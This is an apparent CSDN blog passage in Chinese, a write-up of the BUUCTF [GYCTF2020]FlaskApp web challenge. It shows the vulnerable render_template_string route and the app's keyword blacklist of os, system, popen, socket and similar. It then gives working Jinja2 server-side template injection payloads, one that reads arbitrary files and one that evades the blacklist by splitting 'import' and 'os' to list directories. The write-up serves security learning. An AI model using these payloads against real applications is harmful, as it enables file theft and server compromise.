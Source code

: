 

# BUUCTF__web题解合集（九）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/108684697](https://blog.csdn.net/TM_1024/article/details/108684697)

## 前言

### 1、[GYCTF2020]FlaskApp

*   第一步能在解密页面随便输入比如说`1`引发报错，可以得到源代码，主要关注路由部分

```
@app.route('/decode',methods=['POST','GET'])

def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp) 
```

*   看到渲染函数`render_template_string` 尝试加密`{{2+2}}`并解密，回显4，说明存在`ssti注入`

*   继续往下读内容,只需修改下面的`filename`为需要读取的文件路径

    ```
    {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %} 
    ```

*   payload可以平时积累，毕竟原理相同只需要根据实际题目修改一些东西就行。[这里有一些](https://www.cnblogs.com/hackxf/p/10480071.html)

*   读取源代码`app.py`，可以发现waf过滤。

```
def waf(str):
    black_list = ["flag","os","system","popen","import","eval","chr","request",
                  "subprocess","commands","socket","hex","base64","*","?"]
    for x in black_list :
        if x in str.lower() :
            return 1 
```

*   非预期解法就是通过拼接来绕过黑名单。

*   第一步就是拼接`import`和`os`来读取文件目录。

    ```
    {{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}} 
    ```
